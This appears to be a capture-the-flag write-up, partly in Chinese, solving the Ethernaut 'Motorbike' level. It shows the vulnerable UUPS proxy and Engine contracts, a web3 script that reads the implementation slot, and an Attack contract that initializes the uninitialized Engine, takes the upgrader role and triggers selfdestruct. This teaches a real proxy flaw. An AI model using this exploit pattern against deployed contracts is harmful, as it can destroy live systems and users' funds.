 # Motorbike

> Ethernaut's motorbike has a brand new upgradeable engine design.
>
> Would you be able to `selfdestruct` its engine and make the motorbike unusable ?
>
> Things that might help:
>
> - [EIP-1967](https://eips.ethereum.org/EIPS/eip-1967)
> - [UUPS](https://forum.openzeppelin.com/t/uups-proxies-tutorial-solidity-javascript/7786) upgradeable pattern
> - [Initializable](https://github.com/OpenZeppelin/openzeppelin-upgrades/blob/master/packages/core/contracts/Initializable.sol) contract

## 源码

```solidity
// SPDX-License-Identifier: MIT

pragma solidity <0.7.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/proxy/Initializable.sol";

contract Motorbike {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    
    struct AddressSlot {
        address value;
    }
    
    // Initializes the upgradeable proxy with an initial implementation specified by `_logic`.
    constructor(address _logic) public {
        require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
        (bool success,) = _logic.delegatecall(
            abi.encodeWithSignature("initialize()")
        );
        require(success, "Call failed");
    }

    // Delegates the current call to `implementation`.
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }

    // Fallback function that delegates calls to the address returned by `_implementation()`. 
    // Will run if no other function in the contract matches the call data
    fallback () external payable virtual {
        _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
    }

    // Returns an `AddressSlot` with member `value` located at `slot`.
    function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
        assembly {
            r_slot := slot
        }
    }
}

contract Engine is Initializable {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    // Upgrade the implementation of the proxy to `newImplementation`
    // subsequently execute the function call
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }

    // Restrict to upgrader role
    function _authorizeUpgrade() internal view {
        require(msg.sender == upgrader, "Can't upgrade");
    }

    // Perform implementation upgrade with security checks for UUPS proxies, and additional setup call.
    function _upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) internal {
        // Initial upgrade and setup call
        _setImplementation(newImplementation);
        if (data.length > 0) {
            (bool success,) = newImplementation.delegatecall(data);
            require(success, "Call failed");
        }
    }
    
    // Stores a new address in the EIP1967 implementation slot.
    function _setImplementation(address newImplementation) private {
        require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");
        
        AddressSlot storage r;
        assembly {
            r_slot := _IMPLEMENTATION_SLOT
        }
        r.value = newImplementation;
    }
}
```

## 攻击思路

`Motorbike`合约使用代理调用`Engine`合约的逻辑，关卡生成的实例地址为`Motorbike`合约地址。我们使用`Engine`合约中的逻辑时，将函数调用发送到`Motorbike`合约中，`Motorbike`合约再代理调用`Engine`合约。关卡目标是销毁`Engine`合约，使`Motorbike`合约失效（无法代理调用）。

`Engine`合约并没有`selfdestruct`方法，无法销毁合约。但是`Motorbike`合约在初始化`Engine`合约时，使用的是代理调用，并没有直接合约间调用。所以实际并没有执行`Engine`合约的`initialize`函数。也就是说，实际的`Engine`合约并没有初始化。我们只要找到实际的`Engine`合约地址，并将它初始化，将`upgrader`变量赋值为我的地址，然后再调用`upgradeToAndCall`函数，让`Engine`合约代理调用`selfdestruct`方法。即可完成目标

## 攻击流程

1. 找到`Engine`合约的地址

   ```js
   var Web3 = require('web3');
   var web3 = new Web3(new Web3.providers.HttpProvider("https://rinkeby.infura.io/v3/4d7440b583e447f7b7d5630b038e0dc7"));
   
   web3.eth.getStorageAt("0xe1e065BfC220B43bC26dDAd015b8E773f71ec599", '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc')
   .then(console.log);
   ```

   脚本执行完，得到地址：0xFF5C8FA1Cb855b6614B0420f9D816F51D89dE1dA

2. 部署`Attack`合约，执行`attack`方法

   ```solidity
   contract Attack{
   
       Engine target = Engine(0xFF5C8FA1Cb855b6614B0420f9D816F51D89dE1dA);
   
       function attack() public{
           target.initialize();
           target.upgradeToAndCall(address(this), abi.encodeWithSelector(this.selfdestructFun.selector));
       }
   
       function selfdestructFun() public { // 0x1d6c7103
           selfdestruct(address(0));
       }
   }
   ```

   

The advantage of following an UUPS pattern is to have very minimal proxy to be deployed. The proxy acts as storage layer so any state modification in the implementation contract normally doesn't produce side effects to systems using it, since only the logic is used through delegatecalls.

This doesn't mean that you shouldn't watch out for vulnerabilities that can be exploited if we leave an implementation contract uninitialized.

This was a slightly simplified version of what has really been discovered after months of the release of UUPS pattern.

Takeways: never leaves implementation contracts uninitialized ;)

If you're interested in what happened, read more [here](https://forum.openzeppelin.com/t/uupsupgradeable-vulnerability-post-mortem/15680).